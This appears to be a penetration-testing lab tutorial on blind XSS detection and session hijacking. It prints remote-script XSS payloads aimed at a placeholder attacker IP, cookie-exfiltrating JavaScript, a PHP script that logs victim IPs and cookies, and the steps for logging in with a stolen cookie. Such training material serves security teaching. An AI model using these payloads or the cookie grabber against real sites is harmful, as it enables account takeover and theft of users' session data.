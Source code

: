 # Session Hijacking

Modern web applications utilize cookies to maintain a user's session throughout different browsing sessions. This enables the user to only log in once and keep their logged-in session alive even if they visit the same website at another time or date. However, if a malicious user obtains the cookie data from the victim's browser, they may be able to gain logged-in access with the victim's user without knowing their credentials.

With the ability to execute JavaScript code on the victim's browser, we may be able to collect their cookies and send them to our server to hijack their logged-in session by performing a `Session Hijacking` (aka `Cookie Stealing`) attack.

***

## Blind XSS Detection

We usually start XSS attacks by trying to discover if and where an XSS vulnerability exists. However, in this exercise, we will be dealing with a `Blind XSS` vulnerability. A Blind XSS vulnerability occurs when the vulnerability is triggered on a page we don't have access to.

Blind XSS vulnerabilities usually occur with forms only accessible by certain users (e.g., Admins). Some potential examples include:

* Contact Forms
* Reviews
* User Details
* Support Tickets
* HTTP User-Agent header

Let's run the test on the web application on (`/hijacking`) in the server at the end of this section. We see a User Registration page with multiple fields, so let's try to submit a `test` user to see how the form handles the data:

<figure><img src="../../../../.gitbook/assets/image (272).png" alt=""><figcaption></figcaption></figure>

As we can see, once we submit the form we get the following message:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

This indicates that we will not see how our input will be handled or how it will look in the browser since it will appear for the Admin only in a certain Admin Panel that we do not have access to. In normal (i.e., non-blind) cases, we can test each field until we get an `alert` box, like what we've been doing throughout the module. However, as we do not have access over the Admin panel in this case, `how would we be able to detect an XSS vulnerability if we cannot see how the output is handled?`

To do so, we can use the same trick we used in the previous section, which is to use a JavaScript payload that sends an HTTP request back to our server. If the JavaScript code gets executed, we will get a response on our machine, and we will know that the page is indeed vulnerable.

However, this introduces two issues:

1. `How can we know which specific field is vulnerable?` Since any of the fields may execute our code, we can't know which of them did.
2. `How can we know what XSS payload to use?` Since the page may be vulnerable, but the payload may not work?

***

## Loading a Remote Script

In HTML, we can write JavaScript code within the `<script>` tags, but we can also include a remote script by providing its URL, as follows:

```html
<script src="http://OUR_IP/script.js"></script>
```

So, we can use this to execute a remote JavaScript file that is served on our VM. We can change the requested script name from `script.js` to the name of the field we are injecting in, such that when we get the request in our VM, we can identify the vulnerable input field that executed the script, as follows:

```html
<script src="http://OUR_IP/username"></script>
```

If we get a request for `/username`, then we know that the `username` field is vulnerable to XSS, and so on. With that, we can start testing various XSS payloads that load a remote script and see which of them sends us a request. The following are a few examples we can use from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss):

```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```

As we can see, various payloads start with an injection like `'>`, which may or may not work depending on how our input is handled in the backend. As previously mentioned in the `XSS Discovery` section, if we had access to the source code (i.e., in a DOM XSS), it would be possible to precisely write the required payload for a successful injection. This is why Blind XSS has a higher success rate with DOM XSS type of vulnerabilities.

Before we start sending payloads, we need to start a listener on our VM, using `netcat` or `php` as shown in a previous section:

```shell-session
al1abb@htb[/htb]$ mkdir /tmp/tmpserver
al1abb@htb[/htb]$ cd /tmp/tmpserver
al1abb@htb[/htb]$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```

Now we can start testing these payloads one by one by using one of them for all of input fields and appending the name of the field after our IP, as mentioned earlier, like:

```html
<script src=http://OUR_IP/fullname></script> #this goes inside the full-name field
<script src=http://OUR_IP/username></script> #this goes inside the username field
...SNIP...
```

{% hint style="info" %}
**Tip:** We will notice that the email must match an email format, even if we try manipulating the HTTP request parameters, as it seems to be validated on both the front-end and the back-end. Hence, the email field is not vulnerable, and we can skip testing it. Likewise, we may skip the password field, as passwords are usually hashed and not usually shown in cleartext. This helps us in reducing the number of potentially vulnerable input fields we need to test.
{% endhint %}

Once we submit the form, we wait a few seconds and check our terminal to see if anything called our server. If nothing calls our server, then we can proceed to the next payload, and so on. Once we receive a call to our server, we should note the last XSS payload we used as a working payload and note the input field name that called our server as the vulnerable input field.

`Try testing various remote script XSS payloads with the remaining input fields, and see which of them sends an HTTP request to find a working payload`.

***

## Session Hijacking

Once we find a working XSS payload and have identified the vulnerable input field, we can proceed to XSS exploitation and perform a Session Hijacking attack.

A session hijacking attack is very similar to the phishing attack we performed in the previous section. It requires a JavaScript payload to send us the required data and a PHP script hosted on our server to grab and parse the transmitted data.

There are multiple JavaScript payloads we can use to grab the session cookie and send it to us, as shown by [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#exploit-code-or-poc):

```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

Using any of the two payloads should work in sending us a cookie, but we'll use the second one, as it simply adds an image to the page, which may not be very malicious looking, while the first navigates to our cookie grabber PHP page, which may look suspicious.

We can write any of these JavaScript payloads to `script.js`, which will be hosted on our VM as well:

```javascript
new Image().src='http://OUR_IP/index.php?c='+document.cookie
```

Now, we can change the URL in the XSS payload we found earlier to use `script.js` (`don't forget to replace OUR_IP with your VM IP in the JS script and the XSS payload`):

```html
<script src=http://OUR_IP/script.js></script>
```

With our PHP server running, we can now use the code as part of our XSS payload, send it in the vulnerable input field, and we should get a call to our server with the cookie value. However, if there were many cookies, we may not know which cookie value belongs to which cookie header. So, we can write a PHP script to split them with a new line and write them to a file. In this case, even if multiple victims trigger the XSS exploit, we'll get all of their cookies ordered in a file.

We can save the following PHP script as `index.php`, and re-run the PHP server again:

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Now, we wait for the victim to visit the vulnerable page and view our XSS payload. Once they do, we will get two requests on our server, one for `script.js`, which in turn will make another request with the cookie value:

```shell-session
10.10.10.10:52798 [200]: /script.js
10.10.10.10:52799 [200]: /index.php?c=cookie=f904f93c949d19d870911bf8b05fe7b2
```

As mentioned earlier, we get the cookie value right in the terminal, as we can see. However, since we prepared a PHP script, we also get the `cookies.txt` file with a clean log of cookies:

```shell-session
$ cat cookies.txt 
Victim IP: 10.10.10.1 | Cookie: cookie=f904f93c949d19d870911bf8b05fe7b2
```

Finally, we can use this cookie on the `login.php` page to access the victim's account. To do so, once we navigate to `/hijacking/login.php`, we can click `Shift+F9` in Firefox to reveal the `Storage` bar in the Developer Tools. Then, we can click on the `+` button on the top right corner and add our cookie, where the `Name` is the part before `=` and the `Value` is the part after `=` from our stolen cookie:

<figure><img src="../../../../.gitbook/assets/image (274).png" alt=""><figcaption></figcaption></figure>

Once we set our cookie, we can refresh the page and we will get access as the victim:

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption></figcaption></figure>
